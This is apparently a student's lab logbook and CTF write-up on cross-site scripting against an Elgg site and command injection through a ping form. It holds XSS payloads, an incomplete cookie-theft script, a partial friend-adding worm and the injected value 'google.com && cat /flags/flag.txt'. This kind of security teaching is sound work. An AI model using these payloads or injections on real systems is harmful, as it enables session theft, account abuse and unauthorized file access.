# Log Book 10

## Task 1
For this task we want to inject a script into our profile. We achieved this by posting the following script into the field "Brief description":

```script
<script>alert('XSS');</script>
```

This script creates an alert window where it's displayed the string "XSS".



## Task 2
By adding the following script to the field "Brief description" where we added the previous script in Task 1, an alert window is displayed with the user's cookies:



## Task 3
In this task we want to be able to send the user's cookies to a server that belongs to the attacker. In the script bellow, we imbed the cookies that we want to send in a request that will be made to the attacker's machine:

```script
<script>document.write('');
</script>
```

By using the ```netcat``` command line tool to listen for any requests made from users that visited our profile, we can get the user's cookies contained in the requests.



## Task 4
The objective of this task is to write a worm that adds Samy to a user's friend list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension HTTP Header Live, we can find how a friend HTTP request is encoded:



Now we remove Samy as friend so that we can test the script. As we can see in the following image, Alice has no friends:



Using this information, we can create a script that, when executed, forges a request that adds Samy as a friend to the logged in user.

```script
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.

var sendurl=...; //FILL IN

//Create and send Ajax request to add friend

Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Now we log in into Alice's account and visit Samy's profile. Then we go to Alice's profile and we can see that now, Alice and Samy are friends.


### Question 1
The referenced lines serve to send the elgg token in our forged request so that the server evaluates the request as a valid request from the user.

### Question 2
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the inner HTML content of the field. Thus, injecting any script into the About Me field is not possible (if there's only Text mode), as we can't submit the ```<script>``` tag into profile.

---

## CTF 10

### Challenge 1
##### The goal in this CTF was to beg for the flag and wait 2 minutes for the administrator approval. The strategy we used to solve this problem was using XSS attack to force the administrator approval, therefore getting the flag.
##### At first we tested out with the word "teste" to see what happened.<br>
<br>
##### We figured out there is a button the admin can click to give out the flag to the user, but this button is inacessible to the user.
##### We then proceeded to try XSS to see if it would work.<br>
<br>
##### Then we started to prepare our final script. We discovered the id of the button that gives the flag away and we wrote the script.<br>
<br>
##### We were successful!<br>
<br>

### Challenge 2
##### Firstly we start by analysing what features are available to non-authenticated users:
 - Login
 - Speed Report
 - Ping a Host
##### We tried to blindly SQL inject the login form, with common used SQL injection commands but we were not successfull.
##### We then proceeded to try to explore the ping a host system. We attempted to ping google.com:
<br>
##### By observing the screenshot above, we can assume that the server is probably using a terminal to run the unix command ping followed by the input that we give it.
##### After knowing this we can now realize that the solution will come from using the cat command in this terminal. So we made use of && for an additional command after the ping: `(ping) google.com && cat /flags/flag.txt`
<br>
##### We were successful!<br>
<br>
